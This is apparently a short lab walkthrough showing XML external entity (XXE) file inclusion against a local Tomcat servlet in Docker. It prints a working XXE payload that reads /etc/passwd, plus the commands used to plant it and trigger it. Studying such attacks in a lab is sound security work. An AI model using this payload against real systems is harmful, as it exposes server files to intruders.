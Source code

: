 # File Inclusion via XXE

1. Create a new XML file called [evil.xml](artifact/evil.xml) with malicious payload in XML header

        <!DOCTYPE doc [
                <!ENTITY ent SYSTEM "file:///etc/passwd">
        ]>

2. Obtain the container ID of Tomcat Docker container by running `docker ps -a` command

    ![docker ps](image/2021-03-02_01-34_docker_ps.png)

3. Replace the contents of `employees.xml` file with contents of `evil.xml`, inside the Docker container

        docker cp evil.xml d11d200f5264:/var/tmp/employees.xml

4. Refresh the URL http://localhost:1234/HelloXML/HelloXMLServlet

    ![File inclusion](image/2021-03-02_01-41_file_inclusion.png)

